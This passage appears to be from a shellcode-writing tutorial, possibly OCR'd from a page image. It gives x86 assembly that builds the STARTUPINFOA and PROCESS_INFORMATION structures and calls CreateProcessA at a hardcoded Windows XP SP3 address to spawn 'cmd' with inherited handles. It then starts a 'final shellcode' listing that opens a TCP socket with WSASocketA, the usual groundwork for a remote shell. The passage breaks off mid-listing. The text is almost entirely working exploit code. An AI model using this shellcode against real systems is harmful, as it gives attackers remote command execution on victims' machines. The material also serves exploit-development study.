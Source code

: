 ``` x86asm
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp             ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Address of CreateProcessA()
call ebx                ; Call CreateProcessA() on WinXPSP3
```

## Putting it all together

Our final shellcode will be this:

**shellcode.asm.**

``` x86asm
; WSASocketA()
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6              ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
```